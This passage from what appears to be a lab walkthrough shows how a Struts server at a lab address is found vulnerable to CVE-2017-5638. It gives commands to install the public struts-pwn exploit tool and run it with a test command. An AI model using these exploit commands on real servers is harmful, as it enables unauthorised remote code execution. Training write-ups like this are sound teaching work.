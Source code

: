 Let's see what we get:
![CVE-2017-5638 Results](screenshots/6_cve_vulnerability_check.PNG)

According to the script, the target is vulnerable.  There are a number of tools we can use to exploit this vulnerability.  I decided to use struts-pwn[5].  Metasploit also has a module (exploit/multi/http/struts2_content_type_ognl) if you are into Metasploit.

Let's setup our environment:
```bash
# Download the code.  It will be downloaded into a new directory called struts-pwn inside of the current directory.
git clone https://github.com/mazen160/struts-pwn

# Set up a Python virtual environment so that we can keep this Python application neatly contained.
# This command sets up a virtual environment in the same directory that we downloaded the code to.
python-3.6 -m venv struts-pwn

# Change directories into our newly created directory
cd struts-pwn/

# Activate the virtual environment
source bin/activate

# Install required Python libraries (requirements.txt tells pip what packages it needs to install.  This file often comes with an application)
pip install -r requirements.txt
```

We are ready to try a command to see if the target is indeed vulnerable.  The script is relatively simple to use.  It needs only two arguments:
```bash
# --url is the path to the vulnerable Struts application
# -c is the command we want to run
python struts-pwn.py --url 'http://10.10.10.64/Monitoring/example/Welcome.action' -c 'id'
```

We will run a fairly innocuous command: id to see who the service is running as and to see if the exploit works using the command above.

![struts-pwn id](screenshots/7_struts_pwn_id.PNG)


[1]: https://www.scmagazine.com/apache-struts-vulnerability-likely-behind-equifax-breach-congress-launches-probes/article/687955/ "Apache Struts vulnerability likely behind Equifax breach, Congress launches probes"
[2]: https://nvd.nist.gov/vuln/detail/CVE-2017-5638 "CVE-2017-5638 Detail (National Vulnerability Database)"
[3]: https://nvd.nist.gov/vuln/detail/CVE-2017-9805 "CVE-2017-9805 Detail (National Vulnerability Database)"
[4]: https://nmap.org/nsedoc/scripts/http-vuln-cve2017-5638.html "http-vuln-cve2017-5638 NSE Script"
[5]: https://github.com/mazen160/struts-pwn "struts-pwn"